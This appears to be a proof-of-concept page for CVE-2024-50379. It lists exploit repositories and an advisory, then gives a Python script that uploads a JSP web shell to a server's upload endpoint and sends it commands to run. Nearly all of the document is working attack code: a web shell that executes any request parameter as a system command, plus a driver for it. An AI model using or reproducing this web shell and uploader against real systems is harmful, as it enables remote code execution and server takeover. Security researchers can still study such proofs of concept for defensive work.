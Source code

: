 CVE-2024-50379

##
#
https://github.com/v3153/CVE-2024-50379-POC
#
https://github.com/Alchemist3dot14/CVE-2024-50379
#
https://vulcan.io/blog/how-to-fix-cve-2024-50379/
#
https://github.com/advisories/GHSA-5j33-cvvr-w245
#
##



```
import requests
import sys

# Configurable variables
BASE_URL = "http://localhost:8080/uploads/"
UPLOAD_ENDPOINT = f"{BASE_URL}upload.jsp"
SHELL_NAME = "shell.jsp"
SHELL_CONTENT = '''
<%@ page import="java.io.*" %>
<%
    if (request.getParameter("cmd") != null) {
        String cmd = request.getParameter("cmd");
        Process p = Runtime.getRuntime().exec(cmd);
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String line;
        while ((line = dis.readLine()) != null) {
            out.println(line);
        }
    }
%>
'''

def upload_shell():
    print("[+] Uploading JSP shell...")
    files = {'file': (SHELL_NAME, SHELL_CONTENT, 'application/octet-stream')}
    response = requests.post(UPLOAD_ENDPOINT, files=files)
    if response.status_code == 200:
        print(f"[+] Shell uploaded successfully. Check the URL: {BASE_URL}uploads/{SHELL_NAME}")
        return True
    else:
        print("[-] Failed to upload shell.")
        print(f"Response Code: {response.status_code}")
        print(f"Response Text: {response.text}")
        return False

def execute_command(command):
    # Correct shell URL
    shell_url = f"{BASE_URL}uploads/{SHELL_NAME}"
    print(f"[+] Executing command: {command}")
    params = {'cmd': command}
    response = requests.get(shell_url, params=params)
    if response.status_code == 200:
        print("[+] Command output:")
        print(response.text)
    else:
        print("[-] Failed to execute command.")
        print(f"Response Code: {response.status_code}")
```